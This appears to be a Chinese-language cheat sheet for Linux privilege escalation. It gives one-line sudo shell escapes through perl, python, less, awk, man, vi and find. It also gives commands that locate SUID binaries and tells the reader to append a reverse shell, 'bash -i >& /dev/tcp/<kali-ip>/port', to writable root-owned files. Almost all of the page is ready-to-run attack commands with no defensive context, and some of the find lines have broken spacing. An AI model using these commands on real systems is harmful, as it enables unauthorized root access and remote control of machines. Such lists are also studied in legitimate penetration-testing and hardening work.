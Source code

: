 - perl:
    ```bash
    sudo perl -e 'exec "/bin/bash";'
    ```

- python:
    ```bash
    sudo python -c 'import pty;pty.spawn("/bin/bash")'
    ```

- less
    ```bash
    sudo less /etc/hosts
    v
    :shell
    ```

- awk
    ```bash
    sudo awk 'BEGIN {system("/bin/bash")}'
    ```

- man
    ```bash
    sudo man man
    !/bin/bash
    ```

- vi
    ```bash
    sudo vi

    :!bash
    或
    :!/bin/sh
    或
    :set shell=/bin/sh
    :shell
    ```

- find
    ```bash
    find . -exec /bin/sh \;
    ```

---

### suid

**找带 suid 的文件**

并不是说程序存在 suid 位就可以提权,还需要看程序的所有者

```bash
find / -perm -u=s 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000-print2>/dev/null
find / -user root -perm -4000-exec ls -ldb {} \;
```
筛选出其中所有人有 rwx 权限的文件,添加如下一句话:
```bash
bash -i >& /dev/tcp/<kali-ip>/port 0>&1
```

---